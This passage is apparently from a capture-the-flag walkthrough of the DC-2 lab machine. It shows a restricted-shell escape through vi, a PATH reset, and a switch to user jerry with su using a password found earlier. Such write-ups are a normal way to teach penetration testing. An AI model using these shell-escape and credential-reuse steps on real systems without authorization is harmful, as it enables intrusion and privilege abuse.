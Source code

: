 
## Flag 3

We are in a restricted shell, which doesn't allow `cat`, `more`, `xxd`. We are still able to read the flag using the `less` command:

~~~
tom@DC-2:~$ ls -la /home/tom
total 40
drwxr-x--- 3 tom  tom  4096 Mar 21  2019 .
drwxr-xr-x 4 root root 4096 Mar 21  2019 ..
-rwxr-x--- 1 tom  tom    66 Mar 21  2019 .bash_history
-rwxr-x--- 1 tom  tom    30 Mar 21  2019 .bash_login
-rwxr-x--- 1 tom  tom    30 Mar 21  2019 .bash_logout
-rwxr-x--- 1 tom  tom    30 Mar 21  2019 .bash_profile
-rwxr-x--- 1 tom  tom    30 Mar 21  2019 .bashrc
-rwxr-x--- 1 tom  tom    95 Mar 21  2019 flag3.txt
-rwxr-x--- 1 tom  tom    30 Mar 21  2019 .profile
drwxr-x--- 3 tom  tom  4096 Mar 21  2019 usr
tom@DC-2:~$ cat flag3.txt
-rbash: cat: command not found
tom@DC-2:~$ xxd flag3.txt
-rbash: xxd: command not found
tom@DC-2:~$ more flag3.txt
-rbash: more: command not found
tom@DC-2:~$ less flag3.txt
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
~~~

# Flag 4

## Evade the restricted bash (rbash)

Reading the previous flag was quite trivial in the restricted shell, but we obviously need to escape from it. As `vi` is available, we can do as follows:

~~~
vi
:set shell=/bin/bash
:shell
~~~

Now, we need to add some paths to the `PATH` envioronment variable:

~~~
tom@DC-2:/usr/bin$ export PATH=$PATH:/usr/local/bin:/usr/bin:/bin
~~~

## Lateral move (tom -> jerry)

Let's use the credentials found previously to switch to `jerry`:

~~~
tom@DC-2:/usr/bin$ su jerry
Password: adipiscing
jerry@DC-2:/usr/bin$ id
uid=1002(jerry) gid=1002(jerry) groups=1002(jerry)
~~~
